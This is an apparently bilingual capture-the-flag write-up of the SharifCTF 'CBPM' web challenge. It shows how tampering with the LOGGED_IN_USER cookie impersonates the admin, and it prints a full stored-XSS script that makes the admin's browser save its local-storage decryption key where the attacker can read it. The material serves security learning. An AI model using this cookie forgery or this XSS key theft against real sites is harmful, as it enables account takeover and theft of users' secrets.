

# CBPM (web 300)

###ENG
[PL](#pl-version)

We get access to cloud-based password storage.
It stores encrypted passwords on the webpage, but the decryption key is present only on the client.

It is true - we check the local storage and there is a `KEY` entry:



We also notice that there is a cookie `LOGGED_IN_USER` with our username.
We verify and apparently we can change it to anyone else, `admin` included.

`admin` user has an encrypted password called `flag`, but in order to decrypt it we would need admins `KEY` value from local storage.

There is a complaint form we can send to the admin, so we tried some standard XSS on this and it didn't work.
The task description says that admin is using strong firewall, so we assumed that maybe admin can't reach anywhere outside.
But he should still be able to invoke local actions inside the system.

So we checked what kind of request is sent when we add new encrypted password in the system, and we prepared payload to add new encrypted password with `KEY` form local storage as label:

```
<script>
var xmlhttp = new XMLHttpRequest();
xmlhttp.open("POST", "/put.php");
xmlhttp.setRequestHeader("Content-Type", "application/json");
xmlhttp.send(JSON.stringify({"id":"eyJ0ZWFtaWQiOiI3NTUifS4xY0lSS1QuQ0dsWklub3B6ajg4T0k2VjVObVQwLVQ0aVg4","prelabel":"","newlabel":localStorage.getItem('KEY'),"encpass":"1e4f3be4abf38a8b6650312361d2c9cc","iv":"e8831d7a2e67c5aa0012c6af3c064a2d"}));
</script>
```

And it worked!
After submitting this complaint form, there was a new password added to admins storage with name `VnlRV2RNWVNESzJSYmI1cWhNQ2ZXb2hqeGtINUk2Nkg=`.

Now we could just put this into our local storage as `KEY` and decode the flag:

`SharifCTF{eyJ0IjoiNzU1In0uQ3plSXN3Lkh6N21ZNGFmd0ZTMVNWMUJ1bmw2dlhqLVVxMA==}`

###PL version

Dostajemy dostęp do serwisu przechowującego hasła w chmurze.
Serwis twierdzi przechowuje jedynie zaszyfrowane wersje haseł, a klucz deszyfrujący znajduje się jedynie u klienta.

Faktycznie wygląda, że jest to prawda bo w local storage pojawił nam się `KEY`:


Zauważmy także że jest cookie `LOGGED_IN_USER` z naszym loginem.
Okazuje się, że możemy zmienić tą wartość na dowolną inną, w tym na `admin`.

`admin` ma w swoim zbiorze przechowywanych haseł takie o nazwie `flag`, ale żeby je odczytać musielibyśmy poznać `KEY` z local storage admina.

W serwisie jest formularz skarg który można wysłać adminowi, więc najpierw próbowaliśmy standardowych XSSów, ale bez efektów.
W opisie zadania była informacja że admin używa mocnego firewalla, więc uznaliśmy, że admin może nie mieć wyjścia na zewnątrz.
Mimo wszystko powinien móc wykonywać akcje wewnątrz systemu.

Sprawdziliśmy więc jakie requesty są wysyłane, żeby dodać nowe hasło przechowalni w systemie i przygotowalimy payload XSS tak żeby admin dodał sobie nowe hasło z wartością `KEY` z local storage jako nazwą:

```
<script>
var xmlhttp = new XMLHttpRequest();
xmlhttp.open("POST", "/put.php");
xmlhttp.setRequestHeader("Content-Type", "application/json");
xmlhttp.send(JSON.stringify({"id":"eyJ0ZWFtaWQiOiI3NTUifS4xY0lSS1QuQ0dsWklub3B6ajg4T0k2VjVObVQwLVQ0aVg4","prelabel":"","newlabel":localStorage.getItem('KEY'),"encpass":"1e4f3be4abf38a8b6650312361d2c9cc","iv":"e8831d7a2e67c5aa0012c6af3c064a2d"}));
</script>
```

I zadziałało!
Po wysłaniu formularza skargi z tym kodem, u admina pojawiło się nowe hasło o nazwie: `VnlRV2RNWVNESzJSYmI1cWhNQ2ZXb2hqeGtINUk2Nkg=`.

Mogliśmy teraz podmienić nasze lokalne `KEY` na hasło admina w local storage i zdekodować flagę:

`SharifCTF{eyJ0IjoiNzU1In0uQ3plSXN3Lkh6N21ZNGFmd0ZTMVNWMUJ1bmw2dlhqLVVxMA==}`
